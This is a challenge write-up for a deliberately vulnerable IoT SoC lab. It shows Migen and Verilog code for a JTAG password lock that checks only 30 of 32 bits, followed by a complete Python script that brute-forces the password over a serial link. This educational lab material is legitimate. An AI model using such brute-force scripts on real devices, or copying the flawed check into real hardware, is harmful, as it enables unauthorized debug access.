

Challenge 4 : Unlock JTAG (Random version)
=============================================

.. note:: 

    This challenge can be disable, to change the configuration edit the file ``config.ini`` and modify the field ``jtag_password_random`` (this is a 4 ASCII character). This challenge is part of the challenges that revolves around the JTAG, this implies that if other challenges are activated it will change the Migen code used as well as the Verilog code generated, however the principle of the challenge remains the same. For more details I invite you to look at the : ``Damn-Vuln-IoT-SoC/litex/litex/soc/cores/jtag_lock.py``.

Introduction
------------

This challenge is part of the challenges around the JTAG interface, the goal of this challenge is to unlock the JTAG interface protected by a password (it's the same principle as the challenge number 3). Here the password is generated randomly and is checked bit by bit in the hardware. A bug is present at the level of the verification of the password, since the password is composed of 4 ASCII characters of the hexadecimal numbers in lower case (that allows the time of bruteforce), this one has thus a length of 32 bits, but the hardware verifies only 30 bits on the 32 of the password. To check the status of the JTAG interface you can use the status command, to enter a password you must use the unlock command. This challenge is classified as medium to high difficulty, you have to create a Python script that brute forces the password using the serial link.

Migen code of the challenge
---------------------------

We can see that the for loop goes from bit 0 to bit 30, each character is recovered from the memory mapped CSR.

.. code-block:: python

    ...

    self.comb += [self.password_status.status.eq(1)]
                for i in range(30):
                    self.comb += [
                        If(self.jtag_lock.storage == 1,
                            self.jtag_status.status.eq(1),
                            If(self.jtag_password_csr.storage[i] == self.jtag_password_csr_soft.storage[i],
                                soc.current_cpu.cpu_params["i_jtag_tdi"].eq(pin_tdi),
                                soc.current_cpu.cpu_params["i_jtag_tms"].eq(pin_tms),
                                soc.current_cpu.cpu_params["i_jtag_tck"].eq(pin_tck),
                                pin_tdo.eq(soc.current_cpu.cpu_params["o_jtag_tdo"])
                            ).Else(
                                dummy_tdi.eq(pin_tdi),
                                dummy_tms.eq(pin_tms),
                                dummy_tck.eq(pin_tck),
                                pin_tdo.eq(0),
                                self.password_status.status.eq(0)
                            )
                        ).Else(
                            dummy_tdi.eq(pin_tdi),
                            dummy_tms.eq(pin_tms),
                            dummy_tck.eq(pin_tck),
                            pin_tdo.eq(0),
                            self.jtag_status.status.eq(0),
                            self.password_status.status.eq(0)
                        )
                    ]

    ...

Verilog code of the challenge
-----------------------------

As you can see there is no way to recover the password from the Verilog code, the password is randomly generated from the firmware.

.. code-block:: verilog

    ...

    main_password_status_status <= 1'd1;
	if ((main_jtag_password_csr_storage[0] == main_jtag_password_csr_soft_storage[0])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[1] == main_jtag_password_csr_soft_storage[1])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[2] == main_jtag_password_csr_soft_storage[2])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[3] == main_jtag_password_csr_soft_storage[3])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[4] == main_jtag_password_csr_soft_storage[4])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[5] == main_jtag_password_csr_soft_storage[5])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[6] == main_jtag_password_csr_soft_storage[6])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[7] == main_jtag_password_csr_soft_storage[7])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[8] == main_jtag_password_csr_soft_storage[8])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[9] == main_jtag_password_csr_soft_storage[9])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[10] == main_jtag_password_csr_soft_storage[10])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[11] == main_jtag_password_csr_soft_storage[11])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[12] == main_jtag_password_csr_soft_storage[12])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[13] == main_jtag_password_csr_soft_storage[13])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[14] == main_jtag_password_csr_soft_storage[14])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[15] == main_jtag_password_csr_soft_storage[15])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[16] == main_jtag_password_csr_soft_storage[16])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[17] == main_jtag_password_csr_soft_storage[17])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[18] == main_jtag_password_csr_soft_storage[18])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[19] == main_jtag_password_csr_soft_storage[19])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[20] == main_jtag_password_csr_soft_storage[20])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[21] == main_jtag_password_csr_soft_storage[21])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[22] == main_jtag_password_csr_soft_storage[22])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[23] == main_jtag_password_csr_soft_storage[23])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[24] == main_jtag_password_csr_soft_storage[24])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[25] == main_jtag_password_csr_soft_storage[25])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[26] == main_jtag_password_csr_soft_storage[26])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[27] == main_jtag_password_csr_soft_storage[27])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[28] == main_jtag_password_csr_soft_storage[28])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end
	if ((main_jtag_password_csr_storage[29] == main_jtag_password_csr_soft_storage[29])) begin
		main_basesoc_i_jtag_tdi <= jtag_tdi;
		main_basesoc_i_jtag_tms <= jtag_tms;
		main_basesoc_i_jtag_tck <= jtag_tck;
		jtag_tdo <= main_basesoc_o_jtag_tdo;
	end else begin
		main_dummy_tdi <= jtag_tdi;
		main_dummy_tms <= jtag_tms;
		main_dummy_tck <= jtag_tck;
		jtag_tdo <= 1'd0;
		main_password_status_status <= 1'd0;
	end

    ...

Resolve the challenge
---------------------

To solve this challenge I created a python script that communicates to the trvaers of the serial link and that comes to test all the combinations of password by using the ``unlock`` command to enter the passwords and the ``status`` command to know if the password entered is the good one.

.. code-block:: python

    #!/usr/bin/env python3

    import serial
    import argparse

    def check_status():
        # Get the current status of the password
        ser.write(b'status\r')
        while (True):

            response = ser.readline()

            if ("JTAG is unlock" in response.decode()):
                return 1
            elif ("JTAG is lock" in response.decode()):
                return 0
            else:
                continue

    # Get the current status of the password
    def show_status():
        ser.write(b'status\r')
        while (True):

            response = ser.readline()

            if ("is lock" in response.decode() or "is unlock" in response.decode()):
                print(response.decode().replace("\n", ""))
                break
            else:
                continue

    parser = argparse.ArgumentParser(description='Password Bruteforce')
    parser.add_argument('-d', '--device', type=str, help='Device')
    args = parser.parse_args()

    ser = serial.Serial(args.device, 115200, timeout=1)

    print("Initial status :\n")
    show_status()

    if(check_status() == 1):
        print("JTAG already unlocked !\n")
        ser.close()
        exit(0)

    for i in range(16**4):
        current_password = '{:04x}'.format(i)
        print("Password currently test : " + current_password, end='\r')
        ser.write(b'unlock ' + current_password.encode('ASCII') + b'\r')
        
        status = check_status()
        if(status == 0):
            continue
        elif(status == 1):
            print("\n")
            print("The password is " + current_password + "\n")
            show_status()
            break;

    # Close the series port
    ser.close()

We can see that at the startup of the FPGA board the JTAG interface is well locked.

Then the script takes care of finding the correct password.

Finally, the JTAG interface is unlocked.

.. image:: images/jtag_bruteforce_unlock.png
  :width: 500
  :alt: Bruteforce script